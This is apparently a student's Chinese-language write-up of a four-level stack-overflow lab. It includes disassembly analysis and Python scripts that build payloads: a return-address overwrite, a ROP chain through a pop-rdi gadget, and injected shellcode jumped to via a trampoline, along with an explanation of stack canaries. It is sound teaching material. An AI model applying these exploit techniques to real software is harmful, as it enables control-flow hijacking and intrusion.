




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
首先使用 `objdump -d problem1` 反汇编目标程序，针对汇编代码，主要进行以下分析：
* 目标确定：
    程序的目的是执行 `func1` 函数以输出 "Yes!I like ICS!"。在反汇编代码中，我找到 `func1` 的起始地址为 `0x401216` 。

* 漏洞定位：
  `main` 函数调用了 `func` 函数（地址 `0x401232`）。在 `func` 中，程序调用了 `strcpy` 将用户输入复制到栈上 。由于 `strcpy` 不检查输入长度，存在栈溢出漏洞。

* 偏移量计算：
  查看 `func` 的汇编代码：
  ```assembly
  401246: 48 8d 45 f8             lea    -0x8(%rbp),%rax
  ```
  这条指令显示缓冲区起始于 rbp - 0x8  
  栈帧结构如下：  
  * Buffer: 8 字节 (从 -0x8 到 0x0)  
  * Saved RBP: 8 字节 (从 0x0 到 0x8)  
  * Return Address: 位于 0x8 处  
  所以覆盖返回地址所需的填充长度为： $$ \text{Padding} = 8 \text{ (Buffer)} + 8 \text{ (Saved RBP)} = 16 \text{ Bytes} $$
- **解决方案**：
```python
import struct

# 1. 目标地址：func1 的入口地址
target_addr = 0x401216

# 2. 计算偏移量：Buffer(8) + Saved RBP(8) = 16
padding_length = 16

# 3. 构造 Payload
# b'A' * 16 用于覆盖缓冲区和旧的 RBP
# struct.pack('<Q', ...) 将地址转换为 64位小端序二进制流
payload = b'A' * padding_length + struct.pack('<Q', target_addr)

# 4. 写入文件 ans1.txt
with open("ans1.txt", "wb") as f:
    f.write(payload)

print("[+] Payload for Problem 1 generated successfully!")
```
- **结果**：


### Problem 2:
- **分析**：
Problem 2开启了NX (No-Execute)保护，这意味着栈内存不可执行，无法直接注入 Shellcode。我们需要利用程序现有的代码片段（Gadgets）来构造攻击链。  

通过 `objdump -d problem2` 分析汇编代码，我进行了以下分析：
* 漏洞定位：
    在 `func` 函数中（地址 `0x401290`），程序调用 `memcpy` 向栈上复制数据。
    汇编指令 `4012a4: lea -0x8(%rbp),%rax` 表明缓冲区起始地址位于 `rbp - 0x8` 。
    为了覆盖返回地址，我们需要填充的数据长度为：
    $$\text{Padding} = 8 \text{ (Buffer)} + 8 \text{ (Saved RBP)} = 16 \text{ Bytes}$$

* 目标函数逻辑：
    目标函数 `func2`（地址 `0x401216`）将栈上的变量（来源于参数 `%edi`）与常数进行比较：
    ```assembly
    401225: 81 7d fc f8 03 00 00     cmpl   $0x3f8,-0x4(%rbp)
    ```
    这表明我们需要将第一个参数设置为 `0x3f8`（十进制 1016）。

* ROP Gadget 构造：
    在 x86-64 架构下，第一个整数参数通过 `%rdi` 寄存器传递。为了将 `0x3f8` 传入 `%rdi`，我寻找了程序中可利用的 Gadget。
    在地址 `0x4012bb` 处存在一个名为 `pop_rdi` 的辅助函数，其内部包含我们需要的指令序列：
    ```assembly
    4012c7: 5f                       pop    %rdi
    4012c8: c3                       ret
    ```
    因此，我们将利用地址 `0x4012c7` 作为跳板，将栈上的数据弹出至 `%rdi` 。
- **解决方案**：
```python
import struct

# 1. 关键地址与参数
pop_rdi_ret = 0x4012c7  # Gadget 地址
func2_addr  = 0x401216  # 目标函数地址
arg_val     = 0x3f8     # 目标参数 (1016)
offset      = 16        # 偏移量 (8 byte buffer + 8 byte saved rbp)

# 2. 构造 ROP Payload
# 结构: [Padding] + [pop_rdi] + [arg] + [func2]
payload = b'A' * offset + \
          struct.pack('<Q', pop_rdi_ret) + \
          struct.pack('<Q', arg_val) + \
          struct.pack('<Q', func2_addr)

# 3. 写入文件
with open('ans2.txt', 'wb') as f:
    f.write(payload)

print(f"[+] Payload generated: ans2.txt (Offset: {offset}, Arg: {hex(arg_val)})")
```
- **结果**：


### Problem 3: 
- **分析**：
通过使用 `objdump -d problem3` 反汇编目标程序，我进行了如下分析：
* 漏洞定位：
    在 `func` 函数（地址 `0x401355`）中 ，程序调用了 `memcpy` 将数据复制到栈上 。
    * 缓冲区地址：`401373: lea -0x20(%rbp),%rax`，说明缓冲区位于 `rbp - 0x20`（32字节）。
    * 复制长度：`401377: mov $0x40,%edx`，说明复制了 64 字节 。
    * 偏移量计算：由于缓冲区大小为 32 字节，而返回地址位于 `rbp + 0x8`。因此，覆盖返回地址需要的偏移量为 `0x20 + 0x8 = 0x28`（即 40 字节）。

* 保护机制与绕过 (ASLR)：
    题目环境开启了 ASLR ，无法直接硬编码跳转地址。然而，程序提供了一个辅助函数 `jmp_xs`（地址 `0x401334`）。
    * 该函数利用程序保存的 `saved_rsp` 计算出栈上缓冲区的动态地址并进行跳转 (`jmp *%rax`) 。
    * 这构成了一个跳板，我们将返回地址覆盖为 `jmp_xs` 的地址，即可让程序“跳回”栈上执行我们注入的代码。

* Shellcode 构造：
    目标函数 `func1`（地址 `0x401216`）检查传入的参数（寄存器 `%edi`）是否等于 `0x72`（即 114）：
    `401225: cmpl $0x72,-0x44(%rbp)` 。
    因此，我们需要将 `0x72` 放入 `%rdi` 寄存器，然后调用 `func1`。
- **解决方案**：
```python
import struct

# 1. 构造 Shellcode (x64 汇编)
# 逻辑: push 114 -> pop rdi -> mov eax, func1_addr -> call eax
# \x6a\x72               push   0x72       (114)
# \x5f                   pop    %rdi       (设置参数)
# \xb8\x16\x12\x40\x00   mov    $0x401216, %eax (func1 地址)
# \xff\xd0               call   *%eax      (调用 func1)
shellcode = b"\x6a\x72\x5f\xb8\x16\x12\x40\x00\xff\xd0"

# 2. 关键参数
jmp_xs_addr = 0x401334  # Trampoline 跳板地址
offset = 40             # 缓冲区(32) + Saved RBP(8)

# 3. 组合 Payload
# [Shellcode] + [Padding] + [jmp_xs]
payload = shellcode + \
          b'A' * (offset - len(shellcode)) + \
          struct.pack('<Q', jmp_xs_addr)

# 4. 生成文件
with open("ans3.txt", "wb") as f:
    f.write(payload)

print(f"[+] Payload generated. Length: {len(payload)}")
```
- **结果**：


### Problem 4: 
- **分析**：
通过使用 `objdump -d problem4` 反汇编目标程序，我进行了如下分析：
* Canary 保护机制详解：
    在 `func` 函数 (`0x135d`) 的汇编代码中，可以看到 Canary 的实现：
    1.  设置金丝雀 ：
        在函数序言部分：
        ```assembly
        136c: 64 48 8b 04 25 28 00 00 00  mov %fs:0x28, %rax
        1375: 48 89 45 f8                 mov %rax, -0x8(%rbp)
        ```
        程序从段寄存器 (`%fs:0x28`) 获取一个随机值，并将其存储在栈底 (`rbp-8`)。
    
    2.  检查金丝雀 ：
        在函数返回前：
        ```assembly
        140a: 48 8b 45 f8                 mov -0x8(%rbp), %rax
        140e: 64 48 2b 04 25 28 00 00 00  sub %fs:0x28, %rax
        1417: 74 05                       je 141e <func+0xc1>
        1419: e8 b2 fc ff ff              call 10d0 <__stack_chk_fail@plt>
        ```
        程序取出栈上的 Canary 值与原始值进行比较。如果比较结果不一致，就会触发 `__stack_chk_fail` 终止程序 。

* 逻辑漏洞利用：
    尽管无法进行栈溢出，但分析 `func` 逻辑发现：
    ```assembly
    13df: 83 7d f4 ff          cmpl   $0xffffffff,-0xc(%rbp)
    13e3: 74 11                je     13f6
    ...
    13f6: call   131c <func1>
    ```
    程序判断局部变量是否等于 `-1` (`0xffffffff`)。如果相等，则直接调用 `func1` 输出通关信息。该变量的值源自 `main` 函数中的用户输入。
- **解决方案**：
通过分析 `main` 函数的流程，我们需要完成三次交互才能触发漏洞：
1. 第一次输入：程序询问名字 `what is your name?`，随意输入字符串并回车。
2. 第二次输入：程序输出问候语 `hi! do you like ics?` ，随意输入字符串并回车。
3. 第三次输入：程序提示 "if you give me enough yuanshi..."。此时输入整数 `-1` 并回车。这个值会被传递给 `func` 函数，满足 `cmp $0xffffffff` 的条件。
- **结果**：

## 思考与总结
本次实验通过四个循序渐进的关卡，让我掌握了栈溢出攻击的原理及多种防御绕过技术。通过 Problem 1，我掌握了计算栈帧偏移量并覆盖返回地址的基础攻击手段。随后的 Problem 2 和 Problem 3 引入了 NX 和 ASLR 保护，使我通过利用 Gadget 传参，以及利用 Trampoline (跳板) 指令配合 Shellcode 注入，成功在受限环境下劫持控制流。最后的 Problem 4 展示了 Canary 机制对栈破坏的有效防御。
